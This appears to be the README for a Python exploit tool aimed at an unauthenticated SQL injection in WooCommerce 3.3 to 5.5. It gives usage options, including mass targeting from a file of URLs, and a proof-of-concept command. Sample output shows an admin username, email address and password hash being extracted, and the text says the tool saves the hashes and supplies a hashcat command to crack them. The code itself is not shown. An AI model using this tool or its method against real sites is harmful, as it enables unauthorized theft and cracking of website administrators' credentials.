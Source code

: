 # Woocommerce 3.3 to 5.5 - Unauthenticated SQL Injection

https://wpscan.com/vulnerability/1212fec8-1fde-41e5-af70-abdd7ffe5379

Exploit woocommerce SQLI and grab user and password hash

Commands
---

```
usage: woo.py [-h] [-u URL] [-f FILE] [-p PROXY] [-i WID]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to test
  -f FILE, --file FILE  File of urls
  -p PROXY, --proxy PROXY
                        Proxy for debugging
  -i WID, --wid WID     User ID of User
```

POC
---

```
python3 woo.py -u https://www.website.com -i 1
```

```
Admin ID: 2
Admin Username: admin@website.com
Admin Email Address: admin@admin.com
Admin Password Hash:$P$BIAtNs11r0CBJZxa3B1JLrFd5C9f7r/
```

everytime this is ran it writes the hashs to wphash.has and gives you a hash cat command to crack them
